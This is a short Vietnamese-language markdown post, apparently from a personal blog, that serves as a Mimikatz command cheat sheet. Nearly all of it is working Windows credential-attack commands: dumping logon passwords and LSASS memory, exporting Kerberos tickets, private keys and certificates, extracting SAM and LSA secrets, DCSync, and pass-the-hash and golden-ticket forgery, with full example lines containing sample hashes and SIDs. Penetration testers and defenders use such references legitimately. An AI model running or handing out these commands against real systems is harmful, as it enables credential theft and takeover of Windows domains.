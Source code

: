 ```yaml
---
title: "Mimikatz"
date: "2024-11-19"
excerpt: "Mimikatz cheatsheet ;>"
featured: "/images/test3.jpg"
---
```


# Markdown Test

This document includes **all common Markdown features** to test the rendering system.

---

## Mimikatz

__#general__

`privilege::debug`: để truy cập thông tin nhạy cảm từ bộ nhớ hệ thống.
`log`: bắt đầu ghi log vào file mặc định (mimikatz.log)
`log customlogfilename.log`: khi log vào file cụ thể

__#sekurlsa__

`sekurlsa::logonpasswords`: trích xuất thông tin đăng nhập của các tài khoản đang đăng nhập trên hệ thống.
`sekurlsa::logonPasswords full`: chi tiết hơn
`sekurlsa::tickets /export`: xuất tất cả các Kerberos tickets từ bộ nhớ ra file `.kirbi`
`sekurlsa::pth`: Path-the-hash => Sử dụng NTLM hash của 1 tài khoản để xác thực mà không cần mật khẩu.
```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

__#kerberos__

`kerberos::list /export`: liệt kê các kerberos ticket hiện tại và xuất chúng ra file `.kirbi`.
`kerberos::ptt c:\chocolate.kirbi`: Tải một vé Kerberos từ file chocolate.kirbi vào bộ nhớ để sử dụng.
`kerberos::golden`: Tạo golden ticket giả mạo 
```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

__#crypto__

`crypto::capi`: Kiểm tra các key quản lý bởi CryptoAPI.
`crypto::cng`: Kiểm tra các key được quản lý bởi Crypto Next Generation (CNG).
`crypto::certificates /export`: xuất chứng chỉ từ kho lưu trữ người dùng.
`crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE`: Xuất chứng chỉ từ kho lưu trữ của máy cục bộ.
`crypto::keys /export`: Xuất các private keys được quản lý bởi CryptoAPI.
`crypto::keys /machine /export`: Xuất các private keys thuộc về máy cục bộ.

__#vault & lsadump__

`vault::cred`: trích xuất thông tin đăng nhập từ Window Vault
`vault::list`: liệt kê các vault hiện tại trên máy
`token::elevate`: Tăng cấp quyền bằng cách sử dụng token bảo mật cao hơn.
`lsadump::sam`: Trích xuất thông tin tài khoản cục bộ từ SAM (Security Account Manager).
`lsadump::secrets`: Trích xuất secret keys từ LSA Secrets.
`lsadump::cache`: Trích xuất thông tin xác thực Kerberos được lưu trong bộ nhớ cache.
`lsadump::dcsync`: Mô phỏng hành vi của một Domain Controller để trích xuất hash của tài khoản domain (ví dụ: tài khoản krbtgt).

__#pth (Pass-the-Hash)__

`sekurlsa::pth`: Thực hiện xác thực mà không cần mật khẩu, chỉ dùng NTLM hash hoặc AES keys.

__#ekeys__

`sekurlsa::ekeys`: Liệt kê các encryption keys từ bộ nhớ của hệ thống.

__#dpapi__

`sekurlsa::dpapi`: Trích xuất các DPAPI keys (Data Protection API), cần thiết để giải mã dữ liệu được bảo vệ trên Windows.

__#minidump__

`sekurlsa::minidump lsass.dmp`: Tải file dump của tiến trình LSASS để phân tích ngoại tuyến.

__#ptt__

`kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi`: Tải 1 vé kergeros cụ thế vào bộ nhớ.

__#golden/silver__
`kerberos::golden`

Tạo Golden Ticket để có quyền truy cập domain.
Tùy chọn bổ sung:
- /id: Xác định RID (Relative ID).
- /groups: Gán nhóm cho vé.

__kerberos::silver__

Tạo Silver Ticket, chỉ có hiệu lực với một dịch vụ cụ thể.

__#tgt__

`kerberos::tgt`: Trích xuất Ticket Granting Ticket (TGT) từ bộ nhớ.

__#purge__

`kerberos::purge`: Xóa tất cả vé Kerberos khỏi bộ nhớ.